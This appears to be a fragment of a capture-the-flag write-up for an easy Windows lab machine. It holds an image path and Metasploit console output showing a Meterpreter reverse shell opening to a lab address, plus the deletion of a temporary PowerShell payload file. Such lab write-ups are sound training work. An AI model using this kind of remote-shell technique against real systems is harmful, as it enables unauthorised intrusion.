 ```
[*] Meterpreter session 2 opened (10.10.14.3:8888 -> 10.10.10.8:49177) at 2024-09-07 11:19:18 -0400
[+] Deleted C:\Users\kostas\AppData\Local\Temp\sqKcxYUBv.ps1

meterpreter > 
```

#easy #windows #manual #msfconsole 
